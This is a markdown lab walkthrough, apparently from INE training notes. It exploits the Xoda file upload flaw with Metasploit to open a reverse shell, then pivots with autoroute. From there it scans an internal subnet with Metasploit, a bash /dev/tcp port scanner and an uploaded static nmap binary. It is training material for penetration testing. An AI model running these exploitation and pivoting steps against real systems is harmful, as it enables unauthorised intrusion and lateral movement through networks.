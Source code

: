 # 📦 Metasploit - Xoda File Upload Exploit & Post-Exploitation

This walkthrough shows how to exploit a vulnerable **Xoda web application** with Metasploit, gain a shell, pivot into an internal network, and use custom port scanning tools.

---

## 🎯 Steps Overview
1. Exploit the vulnerable web app (Xoda File Upload)  
2. Gain shell access  
3. Add routes for pivoting  
4. Scan internal network with Metasploit & custom tools  
5. Upload & execute static binaries  

---

## 1. Exploit Xoda File Upload

**Module:**
```bash
exploit/unix/webapp/xoda_file_upload
```
**Commands:**
```bash
use exploit/unix/webapp/xoda_file_upload
set RHOSTS demo1.ine.local
set TARGETURI /
set LHOST 192.63.4.2
exploit
```

📸 **Sample Output:**
```
[*] Started reverse TCP handler on 192.63.4.2:4444
[*] Sending exploit...
[*] Command shell session 1 opened
```

🔍 **Interpretation:**
- Exploit uploads a malicious file to the vulnerable app.  
- Reverse shell successfully opened (Session 1).  

---

## 2. Interact with Shell
```bash
shell
ip addr
```

📸 **Sample Output:**
```
inet 192.180.108.2/24 brd 192.180.108.255 scope global eth0
```

🔍 **Interpretation:**
- Target machine has IP `192.180.108.2`.  
- Confirms internal network presence.  

---

## 3. Add Route for Pivoting
```bash
run autoroute -s 192.180.108.2
```

📸 **Sample Output:**
```
Route added to subnet 192.180.108.0/255.255.255.0
```

🔍 **Interpretation:**
- Traffic to the internal subnet will now be routed through the compromised host.  
- Enables pivoting deeper into the network.  

---

## 4. TCP Port Scan from Metasploit

**Module:**
```bash
auxiliary/scanner/portscan/tcp
```
**Commands:**
```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.180.108.3
set VERBOSE false
set PORTS 1-1000
exploit
```

📸 **Sample Output:**
```
Discovered open port 21/tcp on 192.180.108.3
Discovered open port 22/tcp on 192.180.108.3
Discovered open port 80/tcp on 192.180.108.3
```

🔍 **Interpretation:**
- Found FTP(21), SSH (22) and HTTP (80) open.  
- Indicates live services inside the pivoted network.  

---

## 5. Locate Static Nmap Binary
```bash
ls -al /root/static-binaries/nmap
file /root/static-binaries/nmap
```

📸 **Sample Output:**
```
-rwxr-xr-x 1 root root 2500000 Apr 10  nmap
nmap: ELF 64-bit LSB executable, statically linked
```

🔍 **Interpretation:**
- Found precompiled static **Nmap binary**.  
- Useful when target does not have Nmap installed.  

---

## 6. Custom Bash Port Scanner
```bash
#!/bin/bash
for port in {1..1000}; do
 timeout 1 bash -c "echo >/dev/tcp/$1/$port" 2>/dev/null && echo "port $port is open"
done
```

📸 **Sample Output:**
```
port 21 is open
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Simple Bash script to scan ports without Nmap.  
- Uses `/dev/tcp` to test connectivity.  

---

## 7. Interact with Session
```bash
sessions -i 1
```

📌 Goes back into the compromised session to continue post-exploitation.  

---

## 8. Upload Tools
```bash
upload /root/static-binaries/nmap /tmp/nmap
upload /root/bash-port-scanner.sh /tmp/bash-port-scanner.sh
```

📸 **Sample Output:**
```
[*] Uploading nmap -> /tmp/nmap
[*] Uploading bash-port-scanner.sh -> /tmp/bash-port-scanner.sh
```

🔍 **Interpretation:**
- Both Nmap binary and custom scanner uploaded to `/tmp/` on target.  

---

## 9. Execute Tools on Target
```bash
shell
cd /tmp/
chmod +x ./nmap ./bash-port-scanner.sh
./bash-port-scanner.sh 192.180.108.3
```

📸 **Sample Output:**
```
port 21 is open
port 22 is open
port 80 is open
```

🔍 **Interpretation:**
- Verified the Bash script works from inside the compromised target.  

---

## 10. Run Nmap on Target
```bash
./nmap -p- 192.180.108.3
```

📸 **Sample Output:**
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
```

🔍 **Interpretation:**
- Full Nmap scan shows ports 21, 22, and 80 are open.  
- Confirms target services for further exploitation.  
